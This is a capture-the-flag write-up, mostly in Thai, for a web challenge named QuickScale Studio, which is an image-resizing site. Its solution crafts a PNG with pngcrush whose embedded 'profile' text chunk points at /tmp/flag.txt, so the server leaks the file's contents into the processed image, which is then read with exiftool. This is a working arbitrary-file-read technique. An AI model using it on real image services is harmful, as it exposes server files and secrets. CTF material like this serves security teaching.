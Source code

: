 # QuickScale Studio

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web | Hard | 500 |

สมควรเขาได้ประสบปัญหากับการที่จะอยากย่อขนาดรูป แต่ด้วยที่เขาเป็น dev สุดเท่ห์ การจะเข้าไปตัดรูปใน Photoshop คงง่ายเกินไปสำหรับเขา เขาจึงทำเว็บไซต์ที่สามารถย่อภาพได้ตั้งแต่ 25% - 100% และด้วยการที่จะทำแล้วไว้ใช้คนเดียวคงจะน่าเสียดายแย่ เขาจึงเปิดให้ใช้ฟรี และเวลาก็ล่วงเลยมามากกว่า 2 ปี ในฐานะที่คุณเป็น Cyber Security คุณจึงแนะนำให้ สมชายเช็ค GitHub repo project ว่าโดนเตือนเรื่อง ใช้ version ที่มีช่องโหว่ไหม แต่เขาไม่สนใจ เพราะเขามั่นใจว่าเรามีระบบป้องกันการโจมตีโดย injection อย่างดี และบอกกับคุณว่าถ้าแน่จริงก็ลอง hack แล้วบอกว่าค่าในไฟล์ /tmp/flag.txt คืออะไรหน่อยสิ ทำไม่ได้ล่ะสิหึ

Format: `CSUBRU{...}`

---

## Hints

no hint

---

## Configuration

| Name | Value |
| :- | :- |
| Title | QuickScale Studio |
| Type | Dynamic Container |
| Category | Web |
| Max Attempts Allowed | Unlimited |
| Blood Bonus | Enable |
| Container Image | `ic-quick-scale-studio` |
| Service Port | 80 |
| CPU Limit (0.1 CPUs) | 1 |
| Memory Limit (MB) | 128 |
| Storage Limit (MB) | 512 |

### Flags

- `CSUBRU{...}`

---

## Analysis

1. สร้าง PNG ที่แทรก text profile ชี้ไปที่ `/tmp/flag.txt`

   ```bash
   pngcrush -text a "profile" "/tmp/flag.txt" test.png payload.png
   ```

2. อัปโหลดไฟล์ payload แล้วดาวน์โหลดรูปที่เว็บประมวลผลให้
3. อ่านข้อมูลโปรไฟล์ที่ฝังมา

   ```bash
   exiftool -b payload.png
   ```

4. ข้อความที่เปิดได้คือ flag
